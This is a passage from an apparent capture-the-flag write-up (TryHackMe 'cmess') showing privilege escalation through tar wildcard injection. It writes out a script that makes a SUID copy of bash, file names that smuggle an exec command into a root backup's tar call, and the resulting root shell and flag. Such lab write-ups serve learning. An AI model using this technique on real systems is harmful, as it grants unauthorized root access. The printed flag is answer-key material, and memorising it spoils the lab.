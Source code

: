 - Found [this](https://systemweakness.com/privilege-escalation-using-wildcard-injection-tar-wildcard-injection-a57bc81df61c) blog.
- Move to backup file.
- Create a shell file which will copy bash to `/tmp`, and will give it SUID rights.

```bash
#!/bin/bash
cp /bin/bash /tmp/shell
chmod +s /tmp/shell
```
- Give shell.sh executable rights.

```console
andre@cmess:~/backup$ chmod +x shell.sh
```
- Then run these command.

```console
andre@cmess:~/backup$ echo "" > "--checkpoint-action=exec=sh shell.sh"
andre@cmess:~/backup$ echo "" > --checkpoint=1
```

- This will be interpreted as

```console
cd /home/andre/backup && tar -zcf /tmp/andre_backup.tar.gz --checkpoint=1 --checkpoint=action=exec=sh shell.sh
```

- Got a shell file in `/tmp` directory.

```console
andre@cmess:/tmp$ ls
andre_backup.tar.gz  linpeas.log  linpeas-new.sh  shell  systemd-private-65bb6ac82e2644b5876085f0cf72c26c-systemd-timesyncd.service-NEJA6o  VMwareDnD
```

- Start this SUID.

```console
andre@cmess:/tmp$ ./shell  -p
shell-4.3# whoami
root
shell-4.3# cat /root/root.txt
thm{9f85b7fdeb2cf96985bf5761a93546a2}
```
